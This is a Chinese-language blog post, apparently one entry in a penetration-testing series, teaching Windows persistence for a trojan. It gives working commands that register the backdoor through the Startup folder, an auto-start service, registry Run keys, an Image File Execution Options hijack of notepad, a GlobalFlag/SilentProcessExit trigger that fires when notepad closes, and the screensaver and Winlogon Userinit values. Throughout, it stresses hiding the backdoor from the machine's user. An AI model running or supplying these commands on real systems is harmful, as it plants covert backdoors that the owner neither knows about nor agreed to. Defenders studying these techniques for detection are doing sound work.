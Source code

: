 ```yaml
---
title: day14-权限维持篇-Windows
date: 2024-03-21 23:01 +0800
categories: [内网,权限维持] 
tags: [横向移动,Windows]
img_path: /img/penetration/
---
```


## 0x00 前言

今天，我们将继续讲解有关于Windows权限维持的最后一部分内容。 今天涉及到的知识点主要如下：

- 自启动 ==> 将木马或者后门放入Windows的启动项中；
- 映像劫持 ==> 常用的方法，劫持一些Windows自带的程序来用于启动后面；
- 登录或屏保 ==> 利用登录或者Windows屏保来启动后门程序。

使用到的环境是`云端的Windows系统`

## 0x01 自启动

在自启动这一块，主要涉及以下四种方法进行启动，其中可能使用注册表的方法比较隐蔽一点。

1. 自启动路径加载
2. 自启动服务加载
3. 自启动注册表加载
4. 计划计时任务

具体用哪种方法，自行决定！

~~创建了个木马（yuan.exe）并放在了c盘之下~~

#### 1、自启动路径加载

我们只需要把我们的后门程序放入如下目录即可：

```text
C:\Users\Administrator\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup\
```

此时，只要重启后，木马就自动上线了。

#### 2、自启动服务加载

为木马创建一个自动动服务，而后重启即可：（命令）

```powershell
sc create ServiceTest binPath= C:\yuan.exe  start= auto
```

删除命令：

```powershell
sc delete ServiceTest
```

#### 3、自启动注册表加载

我们需要在注册表中进行设置：

```powershell
REG ADD "HKCU\SOFTWARE\Microsoft\Windows\CurrentVersion\Run" /V "backdoor" /t REG_SZ /F /D "C:\yuan.exe"
```

![截图](60b7745d40b113c6c8ec700a9c37abf8.png)

这里可利用的键值有：

```text
-当前用户键值
HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Run 
-服务器键值（需要管理员权限）
HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Run

上面命令的HKCU 是HKEY_CURRENT_USER的简写！
```

## 0x02 映像劫持

该方法核心思想就是劫持系统一些自带的常用程序。 `例如：记事本、计算器、explorer.exe等等`。可以合`GlobalFlag`隐藏：执行正常关闭后触发。

#### 测试

首先，我们将劫持`notepad`进行测试。 正常来说，当我们在`运行窗口`或者`命令行`中输入`notepad`时候就会弹出记事本这个应用出来。这里呢，我们将利用命令，将本该弹出的记事本换成我们的计算器应用。

```powershell
REG ADD "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\notepad.exe" /v debugger /t REG_SZ /d "C:\Windows\System32\cmd.exe /c calc"
```

![截图](319b4abb06d254d321f81ba1845c1002.png)

因此，当我们输入`notepad`时候，就会触发这个命令语句`C:\Windows\System32\cmd.exe /c calc`：

![截图](95f65ed7ac953251a76f42f5685c2b58.png)

但是若我们直接这样子改很容易被用户发现！ 因此，我们需要使用下面的方法来使得我们的劫持更加隐蔽！

#### 配合GlobalFlag隐藏：执行正常关闭后触发

使用该方法后，用户是可以正常打开我们的`notepad`的，也能正常使用，此时是不会有任何动静。而当用户关闭我们的记事本时，才会触发我们设置的后门程序！！！

```powershell
reg add "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\notepad.exe" /v GlobalFlag /t REG_DWORD /d 512

reg add "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\SilentProcessExit\notepad.exe" /v ReportingMode /t REG_DWORD /d 1

reg add "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\SilentProcessExit\notepad.exe" /v MonitorProcess /d "C:\yuan.exe"
```

*效果*

正常打开notepad：

![截图](36d71b905af1f7d90a4824cba486d76f.png)

关闭后，木马上线：

![截图](bd399feda830cd7fd3df2b3f0373a936.png)

这个呢，只要对方开关一次这个程序，就会触发反弹一次！！

> 这里，我们除了可以劫持notepad外，还可以劫持其他的应用程序。（注册表中包含的都可以劫持！）
>
> 我们只需要把上面修改注册表命令中对应的程序替换就行了！！
>
> 该方法是最常用的，效果比较好，也比较隐蔽！
>{: .prompt-tip}

![截图](fca505c9b6de325f538f82c85ba968b6.png)

## 0x03 屏保&登录

可以通过屏保或者登录来进行触发。 当然，由于服务器可能不会触发启屏保这个功能，因此使用登录来触发后门这个方法更好。

#### 1、屏保触发

我们需要修改注册表中关于屏保保护处对应的值即可：

```powershell
reg add "HKEY_CURRENT_USER\Control Panel\Desktop" /v SCRNSAVE.EXE /t REG_SZ /d "C:\yuan.exe" /f
```

#### 2、WinLogon配合无文件落地上线；切换登录就会触发

该方法可以结合无文件落地来进行权限维持，常用的无文件落地有（powershell命令、内存马等等）

exe后门:

```powershell
REG ADD "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon" /V "Userinit" /t REG_SZ /F /D "c:\windows\system32\userinit.exe,C:\yuan.exe"
```

powershell后门：（只需将`c:\\yuan.exe`替换即可）

```powershell
REG ADD "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon" /V "Userinit" /t REG_SZ /F /D "c:\windows\system32\userinit.exe, [powershell命令]"
```

> 注意，这里键入注册表时候，我们不能删除原本注册表中存在的程序（如`userinit.exe`)，如果直接覆盖了可能会导致系统环境受损了！
>{: .prompt-warning}

写入前注册表的值：

![截图](914561649fe9300d62906cabe628b4ea.png)

写入后：

![截图](c612860e2e10a6765ab29cccd2d5366c.png)

*效果*

切换登录：（注销即可）

![截图](f8146a62ad37c01aec4c926d566ad12b.png)
